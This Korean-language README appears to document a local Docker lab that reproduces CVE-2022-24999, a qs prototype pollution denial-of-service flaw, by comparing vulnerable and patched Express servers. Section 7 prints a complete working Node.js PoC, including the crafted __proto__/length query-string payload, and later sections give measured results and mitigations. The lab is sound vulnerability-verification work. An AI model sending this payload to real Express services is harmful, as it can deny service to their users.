




# CVE-2022-24999: qs Prototype Pollution 기반 서비스 거부 취약점

## 1. 취약점 개요

CVE-2022-24999는 Node.js의 쿼리 문자열 파싱 라이브러리인 `qs`에서 발생하는 Prototype Pollution 관련 취약점이다.

취약한 버전의 `qs`가 조작된 쿼리 문자열을 파싱하면 객체의 `length` 속성이 비정상적으로 큰 값으로 설정될 수 있다. 애플리케이션이 이 값을 신뢰하여 문자열 또는 배열과 유사한 처리를 수행하면 과도한 반복 처리와 대용량 문자열 생성이 발생할 수 있다.

Node.js는 기본적으로 하나의 이벤트 루프에서 요청을 처리하므로, 공격 요청의 연산이 오래 지속되면 같은 프로세스에서 처리되는 정상 요청도 지연될 수 있다. 본 실습에서는 공격 요청 처리 중 `/health` 요청이 제한 시간 안에 응답하는지를 측정하여 서비스 가용성 영향을 확인하였다.

비교 환경은 다음과 같다.

- 취약 환경: Express 4.17.2, qs 6.9.6
- 패치 환경: Express 4.17.3, qs 6.9.7

---

## 2. 위험도

| 항목 | 내용 |
|---|---|
| CVE | CVE-2022-24999 |
| 취약점 유형 | Prototype Pollution |
| CWE | CWE-1321 |
| CVSS 버전 | CVSS 3.1 |
| Risk Score | 7.5 High |
| CVSS 벡터 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` |
| 주요 영향 | 가용성 저하 및 서비스 거부 |

CVSS 벡터는 네트워크를 통해 별도의 인증이나 사용자 상호작용 없이 공격할 수 있고, 기밀성과 무결성보다는 서비스 가용성에 높은 영향을 줄 수 있음을 의미한다.

---

## 3. 환경 구성

### 3.1 버전 및 포트

| 구분 | 취약 환경 | 패치 환경 |
|---|---:|---:|
| Express | 4.17.2 | 4.17.3 |
| qs | 6.9.6 | 6.9.7 |
| 호스트 포트 | `127.0.0.1:3000` | `127.0.0.1:3001` |
| CPU 제한 | 1 CPU | 1 CPU |
| 메모리 제한 | 512 MiB | 512 MiB |

두 웹 서비스는 외부에 직접 공개되지 않도록 호스트의 `127.0.0.1`에만 바인딩하였다.

### 3.2 Docker Compose 서비스

| 서비스 | 역할 |
|---|---|
| `vulnerable` | Express 4.17.2와 qs 6.9.6을 사용하는 취약 서버 |
| `patched` | Express 4.17.3과 qs 6.9.7을 사용하는 패치 서버 |
| `poc` | 두 서버에 동일한 요청을 전송하고 결과를 자동 비교하는 검증 컨테이너 |

### 3.3 파일 구조

```text
Express/CVE-2022-24999/
├── .dockerignore
├── docker-compose.yml
├── README.md
├── vulnerable/
│   ├── Dockerfile
│   ├── app.js
│   ├── package.json
│   └── package-lock.json
├── patched/
│   ├── Dockerfile
│   ├── app.js
│   ├── package.json
│   └── package-lock.json
├── poc/
│   ├── Dockerfile
│   └── poc.js
└── images/
    ├── 01-build-and-start.png
    ├── 02-vulnerable-result.png
    ├── 03-patched-result.png
    └── 04-clean-rebuild.png
```

---

## 4. 취약 조건

다음 조건에서 취약점이 재현될 수 있다.

1. 애플리케이션이 CVE-2022-24999에 취약한 `qs` 버전을 사용한다.
2. 외부 사용자가 조작한 쿼리 문자열을 전달할 수 있다.
3. 서버가 파싱 결과의 비정상적으로 큰 `length` 값을 별도 제한 없이 사용한다.
4. 공격 요청과 정상 요청이 같은 Node.js 이벤트 루프에서 처리된다.

본 실습에서는 취약 환경과 패치 환경에 동일한 입력을 전달하였다. 공격 요청이 처리되는 동안 별도의 `/health` 요청을 보내 정상 요청의 지연 여부도 함께 측정하였다.

---

## 5. 실행 방법

### 5.1 사전 요구사항

- Docker Engine
- Docker Compose 플러그인
- Git

설치 여부는 다음 명령으로 확인한다.

```bash
docker --version
docker compose version
```

실제 검증 환경에서는 다음 버전을 사용하였다.

```text
Docker version 28.5.1, build e180ab8
Docker Compose version v2.40.3-desktop.1
```

### 5.2 저장소 이동

저장소를 Clone한 뒤 저장소 루트에서 다음 명령을 실행한다.

```bash
cd Express/CVE-2022-24999
```

### 5.3 전체 환경 실행 및 PoC 검증

다음 명령 하나로 이미지 빌드, 취약·패치 서버 실행, PoC 검증을 수행할 수 있다.

```bash
docker compose up --build \
  --abort-on-container-exit \
  --exit-code-from poc
```

검증이 성공하면 `poc` 서비스가 종료 코드 `0`으로 종료된다.



### 5.4 환경 종료

```bash
docker compose down -v --remove-orphans
```

---

## 6. PoC 동작 방식

PoC는 각 환경에 대해 다음 순서로 동작한다.

1. 공격 전 `/health` 응답 시간을 측정한다.
2. 비정상적으로 큰 길이를 유도하는 공격 요청을 `/search`에 전송한다.
3. 공격 요청이 처리되는 동안 별도의 `/health` 요청을 전송한다.
4. `/health` 요청이 1,000ms 안에 완료되는지 확인한다.
5. 공격 요청의 전체 처리 시간과 서버 내부 처리 시간을 기록한다.
6. 서버가 생성한 문자열 길이인 `renderedLength`를 확인한다.
7. 공격 완료 후 `/health` 응답 시간을 다시 측정한다.
8. 취약 환경과 패치 환경 결과를 비교하여 성공 여부를 판정한다.

`healthBlocked`의 판정 기준은 다음과 같다.

```text
공격 처리 중 /health 요청이 1,000ms 안에 응답하지 못함
→ healthBlocked = true
```

`healthBlocked=true`는 서버 프로세스가 완전히 종료되었다는 뜻이 아니다. 공격 요청을 처리하는 동안 정상 요청이 PoC의 제한 시간 안에 응답하지 못했다는 의미이다.

---

## 7. PoC 코드

실제 실행 파일은 [`poc/poc.js`](poc/poc.js)이다.

```javascript
'use strict';

const http = require('http');

// Deliberately restricted to Docker Compose service names in this local lab.
const vulnerableUrl = 'http://vulnerable:3000';
const patchedUrl = 'http://patched:3000';
const payloadLength = 50000000;
const healthTimeoutMs = 1000;

function request(baseUrl, path, timeoutMs = 15000) {
  return new Promise((resolve, reject) => {
    const started = process.hrtime.bigint();
    const req = http.get(new URL(path, baseUrl), (res) => {
      let body = '';
      res.setEncoding('utf8');
      res.on('data', (chunk) => { body += chunk; });
      res.on('end', () => {
        const elapsedMs = Number(process.hrtime.bigint() - started) / 1e6;
        resolve({ statusCode: res.statusCode, body, elapsedMs });
      });
    });

    req.setTimeout(timeoutMs, () => {
      req.destroy(new Error(`timeout after ${timeoutMs} ms`));
    });
    req.on('error', reject);
  });
}

function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}

async function waitUntilReady(baseUrl, label) {
  for (let attempt = 1; attempt <= 30; attempt += 1) {
    try {
      const response = await request(baseUrl, '/health', 1000);
      if (response.statusCode === 200) return;
    } catch (_) {
      // Container may still be starting.
    }
    await sleep(500);
  }
  throw new Error(`${label} service did not become ready`);
}

async function exercise(baseUrl, label, expectBlocked) {
  console.log(`\n=== ${label} ===`);

  const baseline = await request(baseUrl, '/health', 2000);
  console.log(`[baseline] /health: ${baseline.elapsedMs.toFixed(1)} ms`);

  const payloadPath =
    `/search?categories%5B__proto__%5D=cats` +
    `&categories%5B__proto__%5D` +
    `&categories%5Blength%5D=${payloadLength}`;

  const attackPromise = request(baseUrl, payloadPath, 30000);
  await sleep(100);

  let healthBlocked = false;
  let duringAttackMs = null;
  try {
    const during = await request(baseUrl, '/health', healthTimeoutMs);
    duringAttackMs = during.elapsedMs;
    console.log(`[during] /health: ${during.elapsedMs.toFixed(1)} ms`);
  } catch (error) {
    healthBlocked = /timeout/.test(error.message);
    console.log(`[during] /health: ${error.message}`);
  }

  const attack = await attackPromise;
  const attackBody = JSON.parse(attack.body);
  console.log(`[payload] /search: ${attack.elapsedMs.toFixed(1)} ms`);
  console.log(`[payload] response: ${JSON.stringify(attackBody)}`);

  const recovery = await request(baseUrl, '/health', 2000);
  console.log(`[recovery] /health: ${recovery.elapsedMs.toFixed(1)} ms`);

  if (expectBlocked && !healthBlocked) {
    throw new Error(
      `${label}: expected a timeout, but /health completed in ` +
      `${duringAttackMs?.toFixed(1)} ms`
    );
  }
  if (!expectBlocked && healthBlocked) {
    throw new Error(`${label}: patched service unexpectedly blocked`);
  }

  return {
    healthBlocked,
    attackMs: Number(attack.elapsedMs.toFixed(1)),
    renderedLength: attackBody.renderedLength
  };
}

(async () => {
  console.log('CVE-2022-24999 local Docker lab');
  console.log(`payload length: ${payloadLength.toLocaleString('en-US')}`);
  console.log(`health timeout: ${healthTimeoutMs} ms`);

  await waitUntilReady(vulnerableUrl, 'vulnerable');
  await waitUntilReady(patchedUrl, 'patched');

  const vulnerable = await exercise(vulnerableUrl, 'VULNERABLE', true);
  const patched = await exercise(patchedUrl, 'PATCHED', false);

  if (patched.renderedLength > 1000) {
    throw new Error('Patched service produced an unexpectedly large string');
  }

  console.log('\n[PASS] Vulnerable service blocked while patched service stayed responsive.');
  console.log(JSON.stringify({ vulnerable, patched }, null, 2));
})().catch((error) => {
  console.error(`\n[FAIL] ${error.message}`);
  process.exit(1);
});
```

### 7.1 주요 출력값

| 출력값 | 의미 |
|---|---|
| `baseline /health` | 공격 전 정상 요청 응답 시간 |
| `during /health` | 공격 처리 중 정상 요청 응답 시간 |
| `payload /search` | 클라이언트가 측정한 공격 요청 전체 시간 |
| `processingMs` | 서버 내부에서 측정한 처리 시간 |
| `renderedLength` | 서버가 생성한 결과 문자열 길이 |
| `recovery /health` | 공격 완료 후 정상 요청 응답 시간 |
| `healthBlocked` | 공격 중 정상 요청이 1,000ms 안에 응답하지 못했는지 여부 |
| `attackMs` | 결과 요약에 기록된 공격 요청 전체 시간 |

---

## 8. 실행 결과

기존 컨테이너, 볼륨 및 프로젝트 이미지를 제거하고, Docker 빌드 캐시를 사용하지 않은 상태에서 이미지를 다시 빌드한 뒤 PoC를 실행하였다.

아래 표와 설명은 모두 동일한 `final-poc.log` 실행 한 번에서 수집한 결과이다.

### 8.1 결과 비교

| 측정 항목 | 취약 환경 | 패치 환경 |
|---|---:|---:|
| Express | 4.17.2 | 4.17.3 |
| qs | 6.9.6 | 6.9.7 |
| 공격 전 `/health` | 7.5 ms | 7.0 ms |
| 공격 중 `/health` | 1,000ms 시간 초과 | 7.3 ms |
| 공격 요청 전체 시간 | 8,620.8 ms | 11.1 ms |
| 서버 내부 처리 시간 | 8,610.932 ms | 0.006 ms |
| `renderedLength` | 50,000,003 | 15 |
| 공격 후 `/health` | 54.2 ms | 10.0 ms |
| `healthBlocked` | `true` | `false` |

### 8.2 취약 환경

- Express: 4.17.2
- qs: 6.9.6
- 공격 전 `/health`: 7.5 ms
- 공격 중 `/health`: 1,000ms 시간 초과
- 공격 요청 전체 시간: 8,620.8 ms
- 서버 내부 처리 시간: 8,610.932 ms
- 생성된 문자열 길이: 50,000,003
- 공격 후 `/health`: 54.2 ms
- `healthBlocked`: `true`

취약 환경에서는 공격 요청을 처리하는 데 약 8.6초가 소요되었다. 공격 처리 중 전송한 `/health` 요청은 1,000ms 안에 응답하지 못했으며, 서버는 길이가 50,000,003인 문자열을 생성하였다.

이 결과는 조작된 입력 처리로 Node.js 이벤트 루프가 장시간 점유되어 같은 프로세스의 정상 요청이 지연될 수 있음을 보여준다.



### 8.3 패치 환경

- Express: 4.17.3
- qs: 6.9.7
- 공격 전 `/health`: 7.0 ms
- 공격 중 `/health`: 7.3 ms
- 공격 요청 전체 시간: 11.1 ms
- 서버 내부 처리 시간: 0.006 ms
- 생성된 문자열 길이: 15
- 공격 후 `/health`: 10.0 ms
- `healthBlocked`: `false`

패치 환경에서는 동일한 입력이 11.1ms에 처리되었으며, 서버 내부 처리 시간은 0.006ms였다. 공격 요청이 처리되는 동안 전송한 `/health` 요청도 7.3ms에 정상적으로 응답하였다.

생성된 문자열 길이는 15로 제한되었으며, 취약 환경에서 관찰된 대용량 문자열 생성과 정상 요청 시간 초과가 재현되지 않았다.



### 8.4 결과 분석

- 취약 환경의 공격 요청 전체 시간은 8,620.8ms였고, 패치 환경은 11.1ms였다.
- 취약 환경에서는 길이 50,000,003의 문자열이 생성되었고, 패치 환경에서는 길이 15의 문자열만 생성되었다.
- 취약 환경의 공격 중 `/health` 요청은 1초 안에 완료되지 않았다.
- 패치 환경의 공격 중 `/health` 요청은 7.3ms에 완료되었다.
- PoC의 자동 판정 결과는 취약 환경 `healthBlocked=true`, 패치 환경 `healthBlocked=false`였다.

따라서 취약한 버전에서는 동일 입력으로 과도한 처리와 정상 요청 지연이 발생하지만, 패치된 버전에서는 같은 현상이 재현되지 않음을 확인하였다.

---

## 9. 깨끗한 환경 재검증

최종 검증은 다음 순서로 수행하였다.

```bash
docker compose down -v --rmi local --remove-orphans

docker compose build --no-cache --progress=plain

docker compose up \
  --abort-on-container-exit \
  --exit-code-from poc
```

검증 결과는 다음과 같다.

```text
BUILD_EXIT=0
POC_EXIT=0
poc-1 exited with code 0
```

`poc` 컨테이너가 정상적으로 종료된 뒤 `--abort-on-container-exit` 옵션이 나머지 서버 컨테이너를 중지한다. 이 과정에서 장시간 실행 중이던 `vulnerable`과 `patched` 컨테이너가 종료 코드 `137`로 표시될 수 있으나, PoC 자체의 성공 여부는 `poc-1 exited with code 0`과 `POC_EXIT=0`으로 확인한다.



---

## 10. 대응 방안

### 10.1 패치 버전으로 업데이트

가장 중요한 대응 방법은 취약한 `qs`와 Express 버전을 패치된 버전으로 업데이트하는 것이다.

본 실습의 버전 조합에서는 다음과 같이 업데이트할 수 있다.

```bash
npm install express@4.17.3
```

`qs`를 직접 사용하는 경우 다음과 같이 업데이트한다.

```bash
npm install qs@6.9.7
```

운영 환경에서는 해당 버전만 고정하기보다 현재 유지보수되는 최신 보안 버전으로 업데이트하고, 변경에 따른 호환성 검증을 함께 수행해야 한다.

### 10.2 잠금 파일과 재현 가능한 설치

다음 파일을 저장소에 함께 커밋하여 의존성 버전을 고정한다.

```text
package.json
package-lock.json
```

Docker 이미지 빌드 시에는 잠금 파일을 기준으로 설치하는 `npm ci`를 사용한다.

```bash
npm ci
```

### 10.3 입력 제한과 보조 방어

- 쿼리 문자열 전체 길이 제한
- 비정상적으로 큰 숫자 입력 차단
- 객체 및 배열의 최대 크기 제한
- 허용된 파라미터만 처리하는 화이트리스트 적용
- 요청 처리 시간 제한
- 리버스 프록시의 요청 크기 제한
- 비정상적인 반복 요청에 대한 속도 제한

입력 제한은 보조 방어 수단이며, 취약한 패키지를 패치 버전으로 업데이트하는 것이 우선이다.

---

## 11. 재현성 확보 사항

- Docker Compose 하나로 취약 환경, 패치 환경 및 PoC 구성
- Express와 qs 버전을 `package-lock.json`으로 고정
- Dockerfile에서 `npm ci` 사용
- 취약·패치 환경에 동일한 PoC 입력 사용
- 웹 서비스를 `127.0.0.1`에만 바인딩
- 각 서비스에 CPU 1개와 메모리 512MiB 제한 적용
- 서비스 health check 적용
- PoC 성공 및 실패 조건 자동 판정
- `poc` 컨테이너의 종료 코드를 전체 실행 결과로 사용
- 저장소 내부 스크린샷을 README에서 상대경로로 참조
- Docker 빌드 캐시를 사용하지 않은 깨끗한 재검증 수행

---

## 12. 스크린샷

| 파일명 | 내용 |
|---|---|
| `01-build-and-start.png` | 이미지 빌드, 컨테이너 실행 상태, 포트 및 Docker 버전 |
| `02-vulnerable-result.png` | 취약 환경의 시간 초과, 처리 시간 및 `healthBlocked=true` |
| `03-patched-result.png` | 패치 환경의 정상 응답과 `healthBlocked=false` |
| `04-clean-rebuild.png` | `--no-cache` 재빌드, `BUILD_EXIT=0`, `POC_EXIT=0` |

모든 이미지는 `images/` 폴더에 저장하고 README에서는 상대경로로 참조하였다.

---

## 13. 참고 자료

- [NVD - CVE-2022-24999](https://nvd.nist.gov/vuln/detail/CVE-2022-24999)
- [GitHub Advisory Database - GHSA-hrpp-h998-j3pp](https://github.com/advisories/GHSA-hrpp-h998-j3pp)
- [Express 4.17.3 Release](https://github.com/expressjs/express/releases/tag/4.17.3)
- [qs Repository](https://github.com/ljharb/qs)

---

## 14. 결론

본 실습에서는 CVE-2022-24999에 취약한 Express 4.17.2 및 qs 6.9.6 환경과, 패치된 Express 4.17.3 및 qs 6.9.7 환경을 Docker Compose로 구성하였다.

동일한 PoC를 실행한 결과, 취약 환경에서는 공격 요청 처리에 8,620.8ms가 소요되었고 처리 중 정상 `/health` 요청이 1,000ms 안에 응답하지 못했다. 또한 길이 50,000,003의 문자열이 생성되었다.

패치 환경에서는 동일한 요청이 11.1ms에 처리되었으며, 공격 처리 중 `/health` 요청도 7.3ms에 정상 응답하였다. 생성된 문자열 길이는 15였고 `healthBlocked=false`로 판정되었다.

이를 통해 취약한 `qs` 버전의 입력 처리로 Node.js 이벤트 루프가 장시간 점유되어 서비스 가용성에 영향을 줄 수 있으며, 패치된 버전에서는 동일한 현상이 재현되지 않음을 확인하였다.
